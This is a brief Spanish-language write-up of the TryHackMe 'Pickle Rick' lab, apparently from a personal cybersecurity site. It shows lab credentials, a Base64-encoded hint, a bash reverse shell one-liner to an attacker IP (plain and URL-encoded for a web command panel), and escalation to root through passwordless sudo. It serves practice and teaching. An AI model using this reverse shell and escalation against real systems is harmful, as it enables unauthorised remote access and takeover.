

repository: scarlgyx/scarlgyx-cybersecurity · page: writeups/tryhackme/picklerick/index.html · generator: mkdocs

# Pickle Rick

![](../../assets/img/Pasted_image_20251020183013.png)

![](../../assets/img/Pasted_image_20251020183540.png)

R1ckRul3s

![](../../assets/img/Pasted_image_20251020183634.png)

robots.txt -> Wubbalubbadubdub

Probamos a entrar con R1ckRul3s:Wubbalubbadubdub en login.php
✔

![](../../assets/img/Pasted_image_20251020185449.png)


```text
Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0==
```


Decodificando 7 veces con Base64 obtenemos

![](../../assets/img/Pasted_image_20251020190349.png)

Ejecutaremos comandos en el Command Panel pero no nos lanza la revshell, seguramente será porque tiene que ir urlencodeada
`/bin/bash -c 'bash -i >& /dev/tcp/10.8.63.150/4444 0>&1'`
%2Fbin%2Fbash%20%2Dc%20%27bash%20%2Di%20%3E%26%20%2Fdev%2Ftcp%2F10%2E8%2E63%2E150%2F4444%200%3E%261%27

(ALL) NOPASSWD: ALL
`sudo /bin/bash`
**root**
